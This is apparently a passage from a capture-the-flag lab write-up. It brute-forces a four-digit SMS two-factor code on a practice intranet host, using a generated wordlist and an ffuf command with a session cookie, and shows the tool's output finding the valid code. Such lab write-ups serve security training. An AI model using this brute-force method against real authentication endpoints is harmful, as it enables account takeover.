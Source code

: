 ```bash
    <h2>2FA code has been sent to +47 *****299</h2>
    <h3>Flag: THM{*******************************}</h3>
    <hr>
...
```

<h2 align="center">Wordlist</h2>

```bash
for i in {0000..9999}; do echo "$i"; done > support
```

```bash
(rosana) :~/Intranet# tail -n 2 support
9998
9999
```

<h2 align="center">ffuf</h2>

```bash
:~/Intranet# ffuf -u http://intranet.thm:8080/sms -c -w support -d 'sms=FUZZ' -H 'Content-Type: application/x-www-form-urlencoded' -b 'session=eyJ1c2VybmFtZSI6ImFuZGVycyJ9.aN1MYA.HDa-Uv0gKSf_NwlCtudBSQmcIss' -fc 200

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1
________________________________________________

 :: Method           : POST
 :: URL              : http://intranet.thm:8080/sms
 :: Wordlist         : FUZZ: support
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Header           : Cookie: session=eyJ1c2VybmFtZSI6ImFuZGVycyJ9.aN1MYA.HDa-Uv0gKSf_NwlCtudBSQmcIss
 :: Data             : sms=FUZZ
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
 :: Filter           : Response status: 200
________________________________________________

8929                    [Status: 302, Size: 197, Words: 18, Lines: 6]
:: Progress: [10000/10000] :: Job [1/1] :: 514 req/sec :: Duration: [0:00:20] :: Errors: 0 ::
```
